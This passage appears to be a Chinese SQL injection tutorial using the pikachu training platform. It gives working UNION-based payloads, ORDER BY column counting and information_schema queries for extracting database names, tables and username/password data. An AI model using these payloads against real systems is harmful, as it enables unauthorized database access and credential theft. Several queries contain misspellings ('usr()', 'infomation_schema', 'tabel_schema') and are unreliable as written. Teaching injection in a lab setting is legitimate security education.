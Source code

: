 ```sql
v' union select username,pw from member where id=1;
```

我们以pikachu平台为例，输入上述语句报错，原因是union查询字段数应与主查询字段数相同，我们需要判断主查询字段数

```sql
a' order by 4#
```

order by 4 让查询到的结果按照第四列进行排序，如果没报错，说明存在第四列，以此类推可以判断主查询的字段数。

![](https://s2.loli.net/2022/03/18/2erWhDo8k4gHy9t.png)

通过这个办法我们知道主查询一共有三个字段，因此我可可以进行如下拼接：

```sql
a' union select database(),usr(),version()#
```

![](https://s2.loli.net/2022/03/18/DYv9bRV3Xnsadyk.png)

**查询字段数除了用order by之外，还可以通过不断增加union查询的字段数，知道不产生报错来判断主查询的字段数**

如：

```sql
union select 1
union select 1,2
union select 1,2,3....
```

在使用上述方法时，SQL Server数据库和Oracle数据库可能会出现数据类型不匹配的情况，所以我们需要将1,2,3等数字替换为null

#### 2、information_schema注入

查库：获取数据库名

```sql
select group_concat(schema_name) from information_schema.schemata
```



已知：数据库名(pikachu)

查表：获取字段名(user)

```sql
select table_schema,table_name,3 from infomation_schema.tables where tabel_schema='pikachu'；
```

查字段：

```sql
select table_name,column_name,3 from infomation_schema.columns where table_name='user'；
```

查字段内容：

```sql
select username,password from users;
```
